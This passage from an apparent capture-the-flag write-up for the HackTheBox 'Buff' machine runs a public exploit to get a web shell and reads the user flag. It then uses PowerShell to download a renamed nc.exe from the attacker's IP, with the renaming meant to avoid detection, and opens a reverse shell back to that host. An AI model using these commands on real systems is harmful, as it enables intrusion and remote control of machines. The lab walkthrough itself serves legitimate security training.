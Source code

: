 Let's run this script:

```bash
python2 48506.py
```

![[Buff-04.png]]

And we alter the syntax which showed below:

```bash
python2 48506.py http://buff.htb:8080/
```

Excellent! we get the simple web shell.

```cmd
whoami
ipconfig
```

![[Buff-05.png]]

##### capture user flag

```cmd
dir C:\Users\shaun\Desktop
type C:\Users\shaun\Desktop\user.txt
```

```
C:\xampp\htdocs\gym\upload> type C:\Users\shaun\Desktop\user.txt
�PNG
▒
70b73beeab1d5200980d72d188616023

```

![[Buff-06.png]]

#### Upgrade simple webshell to interactive shell

##### Upgrade from nc binary

we will find this reverse shell can't change the directory. We need upgrade our shells by download our nc.exe and to renamed it to avoid detection (https://github.com/int0x33/nc.exe/blob/master/nc.exe) 

```bash
powershell -c (New-Object Net.WebClient).DownloadFile('http://10.10.14.7/nc.exe', 'ncat.exe')
```

```bash
rlwrap nc -lvnp 4444
```

```bash
ncat.exe -e cmd.exe 10.10.14.7 4444
```
